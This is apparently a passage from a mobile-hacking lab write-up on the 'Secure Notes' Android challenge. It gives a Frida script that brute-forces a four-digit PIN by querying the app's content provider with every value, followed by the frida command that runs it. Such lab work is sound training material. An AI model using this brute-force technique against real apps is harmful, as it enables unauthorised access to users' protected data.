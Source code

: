 ## Frida Script
Create frida script to brute force the PIN
```java
Java.perform(function() {
	var ContentValues = Java.use("android.content.ContentValues");
	var Uri = Java.use("android.net.Uri");
	var Runtime = Java.use("java.lang.Runtime");

	// Define a function to execute the command with a given PIN asynchronously
	function executeCommand(pinStr) {
		return new Promise(function(resolve, reject) {
		var command = "content query --uri content://com.mobilehackinglab.securenotes.secretprovider --where pin=" + pinStr;
		console.log(command);
		  
		try {
			var process = Runtime.getRuntime().exec(command);
			var inputStream = process.getInputStream();
			var inputStreamReader = Java.use("java.io.InputStreamReader").$new(inputStream);
			var bufferedReader = Java.use("java.io.BufferedReader").$new(inputStreamReader);
			var line = null;
			var output = "";
			while ((line = bufferedReader.readLine()) != null) {
				output += line + "\n";
			}
			inputStream.close();
			resolve(output);
		} catch (error) {
			reject("Error executing command with PIN " + pinStr + ": " + error);
		}
	});
}
  
// Loop through PIN values from "0000" to "9999" and execute the command asynchronously
var promises = [];
for (var pin = 0; pin <= 9999; pin++) {
	var pinStr = ("000" + pin).slice(-4);
	promises.push(executeCommand(pinStr));
}
  
// Wait for all promises to resolve
Promise.all(promises)
	.then(function(results) {
	
		// Output results
		results.forEach(function(result, index) {
			console.log("Result for PIN " + ("000" + index).slice(-4) + ":\n" + result);
		});
	})
	.catch(function(error) {
		console.error(error);
	});
});
```


# Exploitation
`$ frida -U -l snpin_force.js -f com.mobilehackinglab.securenotes`
